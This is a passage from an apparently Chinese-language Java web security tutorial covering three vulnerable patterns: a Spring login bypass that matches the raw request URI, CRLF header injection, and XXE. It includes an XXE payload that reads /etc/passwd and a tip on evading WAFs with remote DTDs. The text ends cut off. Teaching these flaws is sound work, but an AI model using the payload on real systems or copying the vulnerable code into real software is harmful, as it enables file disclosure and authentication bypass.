 函数**_getPathInfo()_** **仅返回传递给 servlet 的路径**。如果没有传递额外的路径信息，该函数将返回_null_。

换句话说，如果我们将应用程序部署在 Web 服务器的根目录中，并且**请求映射到“/”的 servlet，则_getRequestURI()_和_getPathInfo()_将返回相同的字符串**。否则，我们会得到不同的值。

```java
@RestController  
@RequestMapping("uri")  
public class GetRequestURI {  
  
private final Logger logger = LoggerFactory.getLogger(this.getClass());  
  
@GetMapping(value = "/exclued/vuln")  
public String exclued(HttpServletRequest request) {  
  
String[] excluedPath = {"/css/**", "/js/**"};  
String uri = request.getRequestURI(); // Security: request.getServletPath()  
PathMatcher matcher = new AntPathMatcher();  
  
logger.info("getRequestURI: " + uri);  
logger.info("getServletPath: " + request.getServletPath());  
  
for (String path : excluedPath) {  
if (matcher.match(path, uri)) {  
return "You have bypassed the login page.";  
}  
}  
return "This is a login page >..<";  
}  
}
```

### CRLF Injection

```java
@RequestMapping("/safecode")  
@ResponseBody  
public void crlf(HttpServletRequest request, HttpServletResponse response) {  
response.addHeader("test1", request.getParameter("test1"));  
response.setHeader("test2", request.getParameter("test2"));  
String author = request.getParameter("test3");  
Cookie cookie = new Cookie("test3", author);  
response.addCookie(cookie);  
}
```

`jdk1.7`开始就不会有`CRLF`的问题了

### XXE

XXE 常见的利用场景根据有无回显区分，无回显需要将返回结果带出，有回显则不用。

Payload:

```xml
<?xml version="1.0" encoding="utf-8"?>

<!DOCTYPE joychou [

<!ENTITY xxe SYSTEM "file:///etc/passwd">

]>

<root>&xxe;</root>
```
带有ENTITY可能会被WAF拦截，可以优化成从远程加载`dtd`文件，被拦的可能比较小。
```xml
<?xml version="1.0"?>
```